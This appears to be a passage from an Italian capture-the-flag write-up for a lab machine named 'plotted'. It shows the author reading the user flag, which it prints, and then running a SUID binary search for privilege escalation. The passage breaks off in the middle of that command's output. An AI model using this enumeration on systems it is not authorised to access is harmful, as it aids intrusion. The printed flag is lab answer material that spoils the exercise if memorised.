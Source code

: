 ```
ls /home/plot_admin
```

```
plot_admin@plotted:~$ ls /home/plot_admin
ls /home/plot_admin
tms_backup
user.txt
```

```
cat /home/plot_admin/user.txt
```

```
plot_admin@plotted:~$ cat /home/plot_admin/user.txt
cat /home/plot_admin/user.txt
77927510d5edacea1f9e86602f1fbadb
```
otteniamo la flag user
```
77927510d5edacea1f9e86602f1fbadb
```

**Ora cerchiamo di diventare root**

cerchiamo i binari SUID
```bash
find / -perm -u=s -type f 2>/dev/null;
```

```
/snap/core18/2284/bin/mount
/snap/core18/2284/bin/ping
/snap/core18/2284/bin/su
/snap/core18/2284/bin/umount
/snap/core18/2284/usr/bin/chfn
/snap/core18/2284/usr/bin/chsh
/snap/core18/2284/usr/bin/gpasswd
/snap/core18/2284/usr/bin/newgrp
/snap/core18/2284/usr/bin/passwd
/snap/core18/2284/usr/bin/sudo
/snap/core18/2284/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2284/usr/lib/openssh/ssh-keysign
/snap/core18/2246/bin/mount
/snap/core18/2246/bin/ping
/snap/core18/2246/bin/su
/snap/core18/2246/bin/umount
/snap/core18/2246/usr/bin/chfn
/snap/core18/2246/usr/bin/chsh
/snap/core18/2246/usr/bin/gpasswd
/snap/core18/2246/usr/bin/newgrp
/snap/core18/2246/usr/bin/passwd
/snap/core18/2246/usr/bin/sudo
/snap/core18/2246/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2246/usr/lib/openssh/ssh-keysign
/snap/core20/1328/usr/bin/chfn
/snap/core20/1328/usr/bin/chsh
/snap/core20/1328/usr/bin/gpasswd
/snap/core20/1328/usr/bin/mount
/snap/core20/1328/usr/bin/newgrp
/snap/core20/1328/usr/bin/passwd
/snap/core20/1328/usr/bin/su
/snap/core20/1328/usr/bin/sudo
/snap/core20/1328/usr/bin/umount
/snap/core20/1328/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1328/usr/lib/openssh/ssh-keysign
/snap/core20/1169/usr/bin/chfn
```